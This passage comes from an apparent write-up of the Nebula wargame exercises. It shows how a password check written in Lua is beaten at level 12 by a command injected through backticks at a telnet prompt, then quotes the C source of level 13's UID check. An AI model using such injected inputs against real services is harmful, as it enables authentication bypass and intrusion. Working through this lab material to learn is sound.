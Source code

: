 We can fool this lua-script to accept our bogus password as the real
deal by adding one or two commands. All we need is the hash it's
looking for & a way to give it to the program.

~~~
$ cat << EOF > /tmp/level12
4754a4f4bd5787accd33de887b9250a0691dd198
EOF

$ telnet 127.0.0.1 50001
Trying 127.0.0.1...
Connected to 127.0.0.1.
Escape character is '^]'.
Password: `cat /tmp/level12`; exit
Congrats, your token is 413**CARRIER LOST**
Connection closed by foreign host.
~~~

When `sh -c` is fed the `exit` command, it stops execution, resulting
in the trailing ` | sha1sum` dissappearing into the void. It's not the point
of the exercise, but a neat thing I thought I'd share =)

![Ricky]({{ site-url }}/assets/post_images/ricky.jpg)

* * *

# [level13](https://exploit-exercises.com/nebula/level13/)

> ##About
>
>There is a security check that prevents the program from continuing execution if the user invoking it does not match a specific user id.

Below is the provided C code.

{% highlight c %}
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <sys/types.h>
#include <string.h>

#define FAKEUID 1000

int main(int argc, char **argv, char **envp)
{
  int c;
  char token[256];

  if(getuid() != FAKEUID) {
      printf("Security failure detected. UID %d started us, we expect %d\n", getuid(), FAKEUID);
      printf("The system administrators will be notified of this violation\n");
      exit(EXIT_FAILURE);
  }

  // snip, sorry :)

  printf("your token is %s\n", token);
  
}
{% endhighlight %}
